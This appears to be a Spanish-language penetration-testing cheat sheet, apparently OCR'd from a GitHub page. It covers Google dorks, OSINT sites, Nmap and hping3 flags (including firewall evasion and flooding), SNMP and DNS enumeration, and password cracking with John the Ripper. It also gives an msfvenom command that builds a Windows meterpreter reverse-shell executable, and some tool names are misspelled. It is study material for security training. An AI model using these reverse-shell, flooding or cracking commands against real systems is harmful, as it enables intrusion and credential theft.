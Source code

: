 2.	FOOTPRINTING

#Google Dorks
Operador	Descripción	Ejemplo
“ ”	Coincide exactamente con el texto entre comillas dobles	“Behackerpro”
–	Excluye de la búsqueda el término que va después del signo “-”	malware -ransomware
+	Incluye el término de va después del signo “+”	ciber +resiliencia
#	Busca un hashtag	#pentesting
OR	Devuelve resultados sobre un término u otro	Smartphone OR tablet
|	Devuelve resultados sobre un término u otro. El mismo OR	blackhat | defcon
( )	Utilizado para agrupar operadores	(ballmer OR gates) windows
cache:	Muestra la página en cache	cache:www.eltiempo.co.
inurl:	Busca el termino escrito dentro de la URL de los sitios indexados	inurl:admin.php
site:	Busca todo lo relacionado con el termino escrito como sitio	site:.eltiempo.com -site:www.eltiempo.com -inurl:blogs
filetype:	Buscar el termino escrito como tipo de archivo, ejemplo: pdf, pptp, log, sql	filetype:log
intitle:	Busca el termino escrito dentro del título	intitle:mikrotik
allintitle:	Devuelve resultados que coincidan en el título con el término escrito	allintitle:”Noticias Principales de Colombia”
intext:	Busca páginas que en su texto contienen el termino escrito 	intext:owasp
allintext:	Devuelve todos los resultados que contengan todas las palabras especificadas	allintext:”asterisk digium

Information Gathering

•	https://larutadelhacker.com/google-dorks-busquedas-avanzadas-en-google/ Google Dorks
•	https://dorksearch.com/ Google Dorks
•	https://citizenevidence.amnestyusa.org/ Youtube Data viewer
•	https://www.searchftps.net/ Search FTPs
•	https://www.shodan.io/ Information Gathering
•	https://github.com/JavierOlmedo/shodan-filters Filters Shodan
•	https://sitereport.netcraft.com/ Information Gathering
•	https://www.peekyou.com/ People Search
•	https://tineye.com/ People Search
•	https://yandex.com/images/ People Search
•	TheHarvester – Information Gathering
•	https://search.censys.io/ - Footprinting passive
•	https://www.zoomeye.org/ Footprinting passive
•	https://github.com/sherlock-project/sherlock People Search
•	Ping -l (preload many packets Ej: 1300) -f (flood ping) -i (time) -n (amount)
•	https://website.informer.com/ Web Site Footprinting
•	http://www.webextractor.com/ Extractor de información de paginas web
•	https://www.httrack.com/ Web Site Copier
•	https://emailtracker.website/pro  Email tracker
•	https://whois.domaintools.com/ Whois Lookup
•	nslookup - dns footprinting
•	http://www.kloth.net/services/nslookup.php DNS lookup
•	https://www.yougetsignal.com/ DNS lookup
•	dnsrecon – Tool parrot 
•	https://www.arin.net/  DNS lookup
•	tracert – Tool (-h amount salts)

3.	SCANNING
•	Nmap
	-PE: Ping ICMP ECHO scan
	-PU: UDP ping Scan
	-PR: arp ping scan 
-PP: ICMP timestamp Ping Scan
-PM: ICMP address MASK Ping Scan
-PS: TCP SYN Ping Scan
-PA: TCP ACK Ping Scan
-PO: IP Protocol Ping Scan
-n: deshabilitar resolución de dns
-sn: deshabilitar escaneo de puertos
-Pn: Deshabilitar ping scan
-sT: TCP scan
-sS: stealth scan
-sX: Xmas scan FIN, PSH, and URG flags
-sA: ACK scan
-sU: UDP scan
-O: OS detection
-sV: versión services
-sC: scripts mas utilizados sobre los servicios encontrados
-A: escaneo agresivo, incluye -O -sV -sC –traceroute
NetworkIP/Mask – Search IPs on network
-f: fragmentación de paquetes para evadir firewalls
-g <port>: source port manipulation
-mtu: especificar cantidad máxima de transmisión de paquetes (8)
-D RND:<num> : genera N IP address
•	Angry IP Scanner – Tool Windows
•	MegaPing – Tool Windows
•	NetScanTools – Tool Windows
•	Hping3
-p: range ports
-U: URG flag
-P: Push flag
-F: fin flag
-c: count flags
--scan: scan ports
--udp: UDP scan 
--rand-source: IP random
--data: tamaño del cuerpo del paquete 
--flood: técnica de Inundación de TCP
•	OS Detection TTL
 


•	Unicornscan – Scan Network
-I: Immediate scan
-v: verbose
•	Colasoft Packet Builder – network scanner
•	
4.	ENUMERATION
Nbstat – NetBIOS enumeration
Net – NetBIOS enumeration
NetBiosEnumeratior – Tool Windows
Snmp-check – SNMP Enumeration
Comando snmpget con SNMPv1:
 
snmpget -v1 -c [cadena de comunidad] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv2:
snmpget -v2c -c [cadena de comunidad] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv3 (autenticación, pero sin cifrado):
snmpget -v3 -l authNoPriv -u [nombre de usuario] -a MD5 -A [hash MD5 de la contraseña de usuario] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv3 (autenticación y cifrado):
snmpget -v3 -l authPriv -u [nombre de usuario] -a MD5 -A [contraseña de usuario] -x DES -X [contraseña DES] [dirección IP del host] [OID para update check]
Comando snmpget con SNMPv3 (sin autenticación ni cifrado):
snmpget -v3 -l noAuthNoPriv -u [nombre de usuario] [dirección IP del host] [OID para update check]

Comando snmpwalk con SNMPv1:
 
snmpwalk -v1 -c [cadena de comunidad] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv2:
snmpwalk -v2c -c [cadena de comunidad] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv3 (autenticación, pero sin cifrado):
snmpwalk -v3 -l authNoPriv -u [nombre de usuario] -a MD5 -A [contraseña de usuario] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv3 (autenticación y cifrado):
snmpwalk -v3 -l authPriv -u [nombre de usuario] -a MD5 -A [contraseña de usuario] -x DES -X [contraseña DES] [dirección IP del host] [OID de la MIB de la información del sistema]
Comando snmpwalk con SNMPv3 (sin autenticación ni cifrado):
snmpwalk -v3 -l noAuthNoPriv -u [nombre de usuario] [dirección IP del host] [OID de la MIB de la info rmación del sistema]

•	SoftPerfect Network Scanner – Tool Windows
•	AD Explorer – LDAP Enumerator
•	Dig – DNS Enumeration
Axfr – transferencia de Zona (@NS)
Ns – name server
•	Nslookup 
Set type=<query>
•	Dnsrecon
-z DNSSEC
MX
SOA
NS
A
AAAA
SPF 
TXT
•	Global Network Inventory – Tool Windows
•	Enum4linux
5.	VULNERABILITY ANALYSIS
Nessus 
OpenVAS
Nikto – Web Vulnerability
arachni
6.	SYSTEMS HACKING

Responder -I <interface>
Jhon The Ripper
John -list=formats (Escogemos un formato)
 	John --format=RAW-md5 --wordlist=<RUTA> <HASH>

Hash-identifier <HASH> - Identificar HASH

L0phtCrack7 – Tool Windows

https://www.exploit-db.com Exploit DB
https://www.variotdbs.pl/  search exploit
https://sploitus.com/ search exploit
searchsploit – tool linux
nsfvenom -p windows/meterpeter/reverse_tcp –platform windows -a x86 -f exe LHOST=<> LPORT=<> -o salida
https://github.com/PowerShellMafia/PowerSploit - Post explotacion 
TheFatRat
 Inmunity Debugger
